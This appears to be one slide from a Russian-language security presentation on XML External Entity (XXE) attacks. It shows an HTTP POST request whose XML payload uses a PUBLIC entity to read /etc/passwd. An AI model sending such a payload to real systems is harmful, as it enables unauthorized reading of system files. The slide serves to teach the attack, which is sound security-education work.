

# Не только SYSTEM
POST /xxe HTTP/1.1

<?xml version="1.0"?>
<!DOCTYPE greeting [
<!ENTITY xxe PUBLIC "any" "file:///etc/passwd" >
]>
<greeting>&xxe;</greeting>